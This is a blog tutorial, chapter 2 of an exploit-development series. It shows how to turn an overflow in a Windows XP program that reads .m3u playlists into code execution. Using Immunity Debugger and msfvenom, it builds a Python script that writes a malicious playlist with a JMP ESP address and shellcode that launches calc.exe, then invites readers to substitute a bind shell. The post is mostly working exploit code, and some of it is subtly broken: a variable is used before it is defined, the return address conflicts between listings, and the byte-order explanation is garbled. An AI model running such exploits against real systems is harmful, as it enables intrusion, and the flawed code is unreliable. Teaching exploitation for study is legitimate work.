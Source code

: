 ```yaml
---
layout: post
title:  "Reverse Engineering and Exploit Development Made Easy - Chapter 2"
date:   2019-07-08
categories: Exploit Dev
tags: [RE, Reverse Enginering, Exploit Development]
author: 4p0cryph0n
---
```


### Reverse Engineering and Exploit Development Made Easy - Chapter 2 ###

**:****~****# ./chapt2**

Welcome back! In the previous chapter, we focused on the basics of reverse engineering, and gained control of the EIP register using our first binary. Now, let's dive into the fun stuff: shellcoding!

So, two things need to be done now:

1) Place shellcode in ESP (Basically an encoded payload. For example, bind shell or cmd exec.)

2) Replace EIP with a JMP instruction that points to our shellcode in ESP. A JMP instruction will jump to the shellcode and execute it.

First, in order to make sure that all of our shellcode is going into ESP, let's send a recognisable pattern. This way, we will be able to notice if some of our shellcode is getting cut, which can render our exploit unusable. I'll be using the pattern from the Corelan website itself:

```python
import os
import sys
f = open("lol.m3u","w+")
junk1 = "A"*(25000+1075)
eip = "BBBB"
buf = "1ABCDEFGHIJK2ABCDEFGHIJK3ABCDEFGHIJK4ABCDEFGHIJK"
buf += "5ABCDEFGHIJK6ABCDEFGHIJK"
buf += "7ABCDEFGHIJK8ABCDEFGHIJK"
buf += "9ABCDEFGHIJKAABCDEFGHIJK"
buf += "BABCDEFGHIJKCABCDEFGHIJK"
junk2 = "C"*(30000 - len(junk1 + eip + preesp + nops + buf))
string = junk1 + eip + buf + junk2
print(len(string))
f.write(string)
f.close()
```

Let's save the file and put it through the debugger.

![image1](/assets/img/posts/2019-07-08-Reverse-Engineering-and-Exploit-Dev-Chapter-2\image1.png)

So the highlighted value is what is in ESP. As you can see, our pattern is missing 4 bytes (1ABC), which means that the shellcode that's going in ESP is incomplete. This has a simple solution, all we have to do is add 4 bytes before our shellcode. I'll name this variable preesp.

```python
import os
import sys
f = open("lol.m3u","w+")
junk1 = "A"*(25000+1075)
eip = "BBBB"
preesp = "XXXX"
buf = "1ABCDEFGHIJK2ABCDEFGHIJK3ABCDEFGHIJK4ABCDEFGHIJK"
buf += "5ABCDEFGHIJK6ABCDEFGHIJK"
buf += "7ABCDEFGHIJK8ABCDEFGHIJK"
buf += "9ABCDEFGHIJKAABCDEFGHIJK"
buf += "BABCDEFGHIJKCABCDEFGHIJK"
junk2 = "C"*(30000 - len(junk1 + eip + preesp + nops + buf))
string = junk1 + eip + preesp + buf + junk2
print(len(string))
f.write(string)
f.close()
```

Let's put this through the debugger :)

![image2](/assets/img/posts/2019-07-08-Reverse-Engineering-and-Exploit-Dev-Chapter-2/image2.png)

Now, let's look for a JMP ESP instruction. This instruction should belong to one of the application's DLL. Immunity will help us with this hunt :)

Run the program but do nothing, and right click anywhere in the CPU window and click on Search for > All commands in all modules. Like so:

Alright! Our test shellcode is going in just fine. Now, let's look for a jump ESP instruction.

Right-click anywhere in the CPU window, and search for all commands in all modules. Like so:

![image3](/assets/img/posts/2019-07-08-Reverse-Engineering-and-Exploit-Dev-Chapter-2/image3.png)

Enter jmp esp in the popup box and click find.

![image4](/assets/img/posts/2019-07-08-Reverse-Engineering-and-Exploit-Dev-Chapter-2/image4.png)

This instruction looks good. Copy the address, and then click on View in the toolbar, and click CPU to go back to the CPU window.

![image5](/assets/img/posts/2019-07-08-Reverse-Engineering-and-Exploit-Dev-Chapter-2/image5.png)

Now, replace the 4 Bs in your code with this address. But remember one thing, this highlighted address is in the big Endian format. Computers can't read the address in in our code if we send it in big Endian. We need to change it into little Endian, which is the reverse of this (i.e. 3AF2D201). This is how we will include that address in our code:

```python
eip = "\x34\xF2\xD2\x01"
```

Now, let's generate some shellcode! I'm going to generate shellcode that will open the Calculator application (calc.exe) in Windows XP, just as a test. If this works, we can put a bind shell one in. For this, we will be using Metasploit.

`msfvenom -a x86 --platform windows -p windows/exec CMD="calc" --encoder x86/alpha_upper -f py`

The '--encoder' flag selects an encoder, in our case it's x86/alpha_upper. The '-f' flag tells it to print the payload for a python file. Now, let's add some NOPS (No operations, 90) and paste this in our code and watch the magic!

Your final code should look something like this:

```python
import os
import sys
f = open("lol.m3u","w+")
junk1 = "A"*(25000+1075)
eip = "\x3A\xF2\xD2\x01"
preesp = "XXXX"
nops = "\x90"*25
buf = ""
buf += "\xd9\xe9\xd9\x74\x24\xf4\xbb\xcb\x65\x09\xdf\ #..... and so on
buf3 = "C"*(30000 - len(junk1 + eip + preesp + nops + buf))
string = junk1 + eip + preesp + nops + buf + buf3
print(len(string))
f.write(string)
f.close()
```

![image6](/assets/img/posts/2019-07-08-Reverse-Engineering-and-Exploit-Dev-Chapter-2/image6.png)

Congratulations on your first successful exploit! Now, I want you to try and replace the calculator shellcode with a windows bind shell shellcode and get a shell. In the next chapter, we will cover more ways in which we can execute our shellcode. We will see the other instructions that can replace our JMP ESP instruction.

